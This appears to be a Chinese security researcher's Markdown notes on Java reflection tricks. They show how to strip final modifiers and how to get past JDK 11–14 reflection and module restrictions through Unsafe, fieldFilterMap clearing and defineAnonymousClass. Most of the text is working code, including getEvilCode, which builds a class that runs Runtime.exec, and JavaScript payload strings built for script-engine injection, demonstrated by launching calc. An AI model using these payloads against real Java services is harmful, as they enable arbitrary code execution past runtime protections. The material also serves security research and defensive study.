




# 静态常量修改

修改`static final`属性值，关键在于通过反射将字段的`final`修饰符去掉

在JDK<=11，可以按照如下流程修改：

1. 通过反射获取`java.lang.reflect.Field`内部的`modifiers` Field
2. 将修改目标字段的 `modifiers` 修改为非 `final`
3. 设置目标字段为新的值

```java
public class FinalTest {
    private static final String secret = "Y0U_C4nNot_M0d1fy_M3";
}

Field modifierField = Class.forName("java.lang.reflect.Field").getDeclaredField("modifiers");
modifierField.setAccessible(true);
Field secret = FinalTest.class.getDeclaredField("secret");
secret.setAccessible(true);
modifierField.setInt(secret, secret.getModifiers() & ~Modifier.FINAL);
secret.set(null, "G0T_Y0U");
System.out.println(secret.get(null));  // G0T_Y0U
```

但自从 Java 12 开始，直接获取 Field 的 `modifiers` 字段会得到以下错误

> Exception java.lang.NoSuchFieldException: modifiers
>
> at java.base/java.lang.Class.getDeclaredField

👉 `https://bugs.openjdk.org/browse/JDK-8210522`

为防止安全敏感的字段被修改，JDK12开始引入了反射过滤机制

对比 JDK11 和 JDK14 的`jdk.internal.reflect.Reflection`



可以看到`fieldFilterMap`增加了`Field.class`的所有成员，即`Field`下的任何字段都不能直接通过公共反射方法获取。

跟一下反射调用的流程 `getDeclaredField`



进入`privateGetDeclaredFields`，看到这里开始过滤反射字段





这里实际上已经通过`getDeclaredFields0`获取到了所有字段了

`getDeclaredFields0`是`java.lang.Class`下的成员，恰好上面的`fieldFilterMap`只过滤了`java.lang.Class`下的`classLoader`成员，因此我们直接反射调用`getDeclaredFields0`就能获取到`Fields`的所有成员

```java
Method getDeclaredFields0 = Class.class.getDeclaredMethod("getDeclaredFields0", boolean.class);
getDeclaredFields0.setAccessible(true);
Field[] fields = (Field[]) getDeclaredFields0.invoke(Field.class, false);
Field modifierField = null;
for (Field f : fields) {
    if ("modifiers".equals(f.getName())) {
        modifierField = f;
    }
}
modifierField.setAccessible(true);
Field secret = FinalTest.class.getDeclaredField("secret");
secret.setAccessible(true);
modifierField.setInt(secret, secret.getModifiers() & ~Modifier.FINAL);
secret.set(null, "G0T_Y0U");
System.out.println(secret.get(null));
```

# 反射加载字节码


Java不像其他脚本语言，如js、php、python等有eval函数，可以把字符串当作代码来执行。

因此在Java中最直接的任意代码执行的方式就是加载字节码了。其他代码执行的方式，如EL表达式、js引擎，限于语法的差异，并不能完美地兼容和契合Java自身的语法和类型。

加载字节码的几种方法：

* URLClassLoader#loadClass：需要出网或文件落地，不好使
* TransletClassLoader#defineClass：一般通过反序列化漏洞打进来
* ClassLoader#defineClass：需要通过反射调用

通过JS配合`ClassLoader#defineClass`来做到任意代码执行

JDK版本更迭史：

* JDK6、7
  * 引入JS引擎、采用Rhino实现，不支持`Java.type`等获取Java类型的操作
* JDK8
  * JS引擎采用Nashorn实现
* JDK9
  * 引入模块机制
  * 部分非标准库的类被理出
* JDK11
  * `Unsafe.defineClass`方法被移除
  * 默认禁止跨包之间反射调用非共有方法
* JDK12
  * `Reflection`类下的`fieldFilterMap`增加过滤。反射被大大限制
* JDK15
  * JS引擎被移除JDK

## JDK11

```java
public static String getJsPayload2(String code) throws Exception {
    return "var data = '" + code + "';" +
        "var bytes = java.util.Base64.getDecoder().decode(data);" +
        "var int = Java.type(\"int\");" +
        "var defineClassMethod = java.lang.ClassLoader.class.getDeclaredMethod(" +
        "\"defineClass\", bytes.class, int.class, int.class);" +
        "defineClassMethod.setAccessible(true);" +
        "var cc = defineClassMethod.invoke(" +
        "Thread.currentThread().getContextClassLoader(), bytes, 0, bytes.length);" +
        "cc.getConstructor(java.lang.String.class).newInstance(cmd);";
}

public static byte[] getEvilCode(String cmd) throws Exception {
    ClassPool pool = ClassPool.getDefault();
    CtClass clazz = pool.makeClass("a");
    CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
    constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
    clazz.addConstructor(constructor);
    clazz.getClassFile().setMajorVersion(49);
    return clazz.toBytecode();
}
@Test
public void jsTest() throws Exception {
    ScriptEngineManager manager = new ScriptEngineManager();
  manager.getEngineByName("js").eval(getJsPayload2(Base64.getEncoder().encodeToString(getEvilCode("calc"))));
}
```

上面通过js加载字节码会报错

> java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(byte[],int,int) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to module jdk.scripting.nashorn.scripts
>
> at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible

但直接运行下面代码却可以（可能是JDK相信主类?ClassLoader对其开放）

```java
public static void main(String[] args) throws Exception {
    Class<?> c = Class.forName("java.lang.ClassLoader");
    Method method = c.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
    method.setAccessible(true);
    byte[] bytes = getEvilCode("calc");
    Class<?> aClass = (Class<?>) method.invoke(Thread.currentThread().getContextClassLoader(), bytes, 0, bytes.length);
    aClass.newInstance();
}
```

`java.lang.reflect.Method`继承自`java.lang.reflect.Executable`，`Executable`和`java.lang.reflect.Field`均继承自`java.lang.reflect.AccessibleObject`

`AccessibleObject#checkCanSetAccessible`用于检测成员是否可以被设置为可访问


可以看到是否可访问取决于如下条件：

* 目标类为Public
  * 待访问的成员为Public
  * 待访问的成员为Protected、Static，且调用方是目标类的子类
* 目标类的模块对调用方的模块开放

### modifiers Bypass

根据上面的可访问条件，`ClassLoader`为PUBLIC，我们只需将`defineClass`方法的修饰符修改为`PUBLIC`即可

Java版本：

```java
public static void bypassModifier() throws Exception {
    Class<?> clazz = Class.forName("sun.misc.Unsafe");
    Field field = clazz.getDeclaredField("theUnsafe");
    field.setAccessible(true);
    Unsafe unsafe = (Unsafe) field.get(null);

    Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
    Field modifiers = defineClassMethod.getClass().getDeclaredField("modifiers");
    unsafe.putShort((Object) defineClassMethod, unsafe.objectFieldOffset(modifiers), (short) Modifier.PUBLIC);

    byte[] bytes = getEvilCode("calc");
    Class<?> aClass = (Class<?>) defineClassMethod.invoke(Thread.currentThread().getContextClassLoader(), bytes, 0, bytes.length);
    aClass.newInstance();
}
```

Js版本：

```java
public static String getJsPayload3(String code) throws Exception {
    return "var data = '" + code + "';" +
        "var bytes = java.util.Base64.getDecoder().decode(data);" +
        "var Unsafe = Java.type(\"sun.misc.Unsafe\");" +
        "var field = Unsafe.class.getDeclaredField(\"theUnsafe\");" +
        "field.setAccessible(true);" +
        "var unsafe = field.get(null);" +
        "var Modifier = Java.type(\"java.lang.reflect.Modifier\");" +
        "var byteArray = Java.type(\"byte[]\");" +
        "var int = Java.type(\"int\");" +
        "var defineClassMethod = java.lang.ClassLoader.class.getDeclaredMethod(" +
        "\"defineClass\",byteArray.class,int.class,int.class);" +
        "var modifiers = defineClassMethod.getClass().getDeclaredField(\"modifiers\");" +
        "unsafe.putShort(defineClassMethod, unsafe.objectFieldOffset(modifiers), Modifier.PUBLIC);" +
        "var cc = defineClassMethod.invoke(" +
        "java.lang.Thread.currentThread().getContextClassLoader(),bytes,0,bytes.length);" +
        "cc.newInstance();";
}
```

### override Bypass

回看`setAccessible`的调用逻辑

```java
@Override
@CallerSensitive
public void setAccessible(boolean flag) {
    AccessibleObject.checkPermission();
    if (flag) checkCanSetAccessible(Reflection.getCallerClass());
    setAccessible0(flag);
}
```

`checkCanSetAccessible`去判断目标的修饰符、目标类是否对调用类开放...最后返回flag再传给`setAccessible0`

```java
boolean setAccessible0(boolean flag) {
    this.override = flag;
    return flag;
}
```

`setAccessible0`直接将flag赋值给`this.override`，`override`是其父类`AccessibleObject`的属性

因此也可以直接修改`java.lang.reflect.AccessibleObject`的`override`属性

```java
public static void bypassOverride(Object accessibleObject) throws Exception {
    Field f = Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    f.setAccessible(true);
    Unsafe unsafe = (Unsafe) f.get(null);
    Field override = Class.forName("java.lang.reflect.AccessibleObject").getDeclaredField("override");
    unsafe.putBoolean(accessibleObject, unsafe.objectFieldOffset(override), true);
}
Class<?> c = Class.forName("java.lang.ClassLoader");
Method method = c.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
bypassOverride(method);
byte[] bytes = getEvilCode("calc");
Class<?> aClass = (Class<?>) method.invoke(Thread.currentThread().getContextClassLoader(), bytes, 0, bytes.length);
aClass.newInstance();
```

```java
String bypass = "var bypass = function(obj){" +
    "var Unsafe = Java.type('sun.misc.Unsafe');" +
    "var field = Unsafe.class.getDeclaredField(\"theUnsafe\");" +
    "field.setAccessible(true);" +
    "var unsafe = field.get(null);" +
    "var overrideField =" +
    "java.lang.Class.forName(\"java.lang.reflect.AccessibleObject\").getDeclaredField(\"override\");" +
    "var offset = unsafe.objectFieldOffset(overrideField);" +
    "unsafe.putBoolean(obj, offset, true);};";
```

JDK>=12之后，反射也过滤`java.lang.reflect.AccessibleObject`类的所有成员，得通过`getDeclaredFields0`去获取`override`属性

## JDK 12/13/14

JDK>=12报错提示：没有modifiers字段

> Caused by: java.lang.NoSuchFieldException: modifiers
> at java.base/java.lang.Class.getDeclaredField

### fieldFilterMap Bypass

看的BeiChen师傅写的 orz

https://github.com/BeichenDream/Kcon2021Code/blob/master/bypassJdk/JdkSecurityBypass.java

直接把`fieldFilterMap`置空了

Java版本：

```java
public static void bypassFieldFilterMap() throws Exception {
    Field f = Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    f.setAccessible(true);
    Unsafe unsafe = (Unsafe) f.get(null);

    Class<?> reflectionClass = Class.forName("jdk.internal.reflect.Reflection");
    byte[] classBuffer = reflectionClass.getResourceAsStream("Reflection.class").readAllBytes();
    Class<?> reflectionAnonymousClass = unsafe.defineAnonymousClass(reflectionClass, classBuffer, null);
    Field fieldFilterMap = reflectionAnonymousClass.getDeclaredField("fieldFilterMap");

    if (fieldFilterMap.getType().isAssignableFrom(HashMap.class)) {
        unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(fieldFilterMap), new HashMap<>());
    }

    byte[] clz = Class.class.getResourceAsStream("Class.class").readAllBytes();
    Class<?> classAnonymousClass = unsafe.defineAnonymousClass(Class.class, clz, null);
    Field reflectionData = classAnonymousClass.getDeclaredField("reflectionData");
    unsafe.putObject(Class.class, unsafe.objectFieldOffset(reflectionData), null);
}
```

Js版本：

```java
String bypass = "var bypass = function(){" +
    "var Unsafe = Java.type('sun.misc.Unsafe');" +
    "var HashMap = Java.type('java.util.HashMap');" +
    "var field = Unsafe.class.getDeclaredField(\"theUnsafe\");" +
    "field.setAccessible(true);" +
    "var unsafe = field.get(null);" +
    "var classClass = Java.type(\"java.lang.Class\");" +
    "var reflectionClass = java.lang.Class.forName(\"jdk.internal.reflect.Reflection\");" +
    "var classBuffer = reflectionClass.getResourceAsStream(\"Reflection.class\").readAllBytes();" +
    "var reflectionAnonymousClass = unsafe.defineAnonymousClass(reflectionClass, classBuffer, null);" +
    "var fieldFilterMapField = reflectionAnonymousClass.getDeclaredField(\"fieldFilterMap\");" +
    "if (fieldFilterMapField.getType().isAssignableFrom(HashMap.class)) {" +
    "unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(fieldFilterMapField), new HashMap());" +
    "}" +
    "var clz = java.lang.Class.forName(\"java.lang.Class\").getResourceAsStream(\"Class.class\").readAllBytes();" +
    "var ClassAnonymousClass = unsafe.defineAnonymousClass(java.lang.Class.forName(\"java.lang.Class\"), clz, null);" +
    "var reflectionDataField = ClassAnonymousClass.getDeclaredField(\"reflectionData\");" +
    "unsafe.putObject(classClass, unsafe.objectFieldOffset(reflectionDataField), null);};";
```

### defineAnonymousClass Bypass

虽然JDK11把`Unsafe#defineClass`移除了，但`Unsafe#defineAnonymousClass`还在

```java
Field f = Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
f.setAccessible(true);
Unsafe unsafe = (Unsafe) f.get(null);
unsafe.defineAnonymousClass(Class.class, getEvilCode("calc"), null).newInstance();
```

```java
public static String getJsPayload5(String code) throws Exception {
    return "var data = '" + code + "';" +
        "var bytes = java.util.Base64.getDecoder().decode(data);" +
        "var theUnsafe = java.lang.Class.forName(\"sun.misc.Unsafe\").getDeclaredField(\"theUnsafe\");" +
        "theUnsafe.setAccessible(true);" +
        "unsafe = theUnsafe.get(null);" +
        "unsafe.defineAnonymousClass(java.lang.Class.forName(\"java.lang.Class\"), bytes, null).newInstance();";
}
```

# Reference

* 2023KCon 《Java表达式攻防下的黑魔法》

* https://github.com/BeichenDream/Kcon2021Code/blob/master/bypassJdk/JdkSecurityBypass.java
